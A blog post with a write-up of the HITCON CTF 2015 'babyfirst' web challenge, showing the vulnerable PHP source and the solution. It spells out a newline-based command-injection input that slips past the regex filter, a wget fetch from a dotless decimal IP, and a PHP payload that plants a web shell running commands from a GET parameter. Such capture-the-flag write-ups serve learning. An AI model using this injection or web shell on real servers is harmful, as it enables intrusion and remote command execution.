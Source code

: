 ```yaml
---
layout:     post
title:      "Web 100 baby first"
subtitle:   "Hitcon Ctf"
date:       2015-10-19 20:45:00
author:     "Heeraj"
header-img: "img/post-bg-02.png"
---
```

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- ad -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-0540814478217300"
     data-ad-slot="5956699124"
     data-ad-format="auto"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>
<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>This CTF challenges were very cool, I liked the challenges. I would like write today on web 100 , baby first challenge. I spend most of my time solving this  challenge, but I didn't get it.</p>

<p>Source Code:<br>
&#x3C;?php<br>
    highlight_file(__FILE__);<br>
    $dir = &#x27;sandbox/&#x27; . $_SERVER[&#x27;REMOTE_ADDR&#x27;];<br>
    if ( !file_exists($dir) )<br>
        mkdir($dir);<br>
    chdir($dir);<br>
<br>
    $args = $_GET[&#x27;args&#x27;];<br>
    for ( $i=0; $i&#x3C;count($args); $i++ ){<br>
        if ( !preg_match(&#x27;/^\w+$/&#x27;, $args[$i]) )<br>
            exit();<br>
    }<br>
    exec(&#x22;/bin/orange &#x22; . implode(&#x22; &#x22;, $args));<br>
?&#x3E;<br>

<p>During CTF, when I got the problem source code was visible due to the "highlight_file" function in php. After that it had function to make the directory. Butwhen I deployed the challenge, there was no directory created. </p>

<p>The argument were passed through the GET parameter, then there is for loop which loops till count of arguments. Everything was "0k" till now, exept the preg_match() which was filtering only the letters, characters and digits. This was a tension, I have to somehow bypass the preg_match() function.</p>

<p>Ya this was hard phase, because after this function you have exec() which executes the command. But in the case here, there is /bin/orange , I don't know what was orange  anyway. I was think to use && or ; but that would not work.</p>

<p>For bypassing this function, we have to pass the argument as args[]=a%0A&args[]=touch&args[]=i4info. So now the problem was, what to do next? You can neither use dot or anyother command which would help us. But only thing we could do was , we have to use wget command but for that also, you would have give an IP addrss which don't contain dot. That's intresting an IP without dots.</p>

<p>This was totally new concept, we have to use something called resolving ip. Thus we can make the ip to long number format. Thus we can execute the wget command. You could do this all in folder such that you can make it a tar and execute php of the tar, anyway php will be executed. The exploit to be taken while wget is given below. Its really superb problem, the way of thinking that we take is very nice.</p>

<p>Exploit:<br>
&#x3C;?php<br>
file_put_contents(&#x27;shell.php&#x27;, &#x27;<br>
    &#x3C;?php<br>
    header(&#x22;Content-Type: text/plain&#x22;);<br>
    print shell_exec($_GET[&#x22;cmd&#x22;]);<br>
    ?&#x3E;<br>
&#x27;);<br>
?&#x3E;<br>
</p>

<p>Thank you for reading the blog! </p>
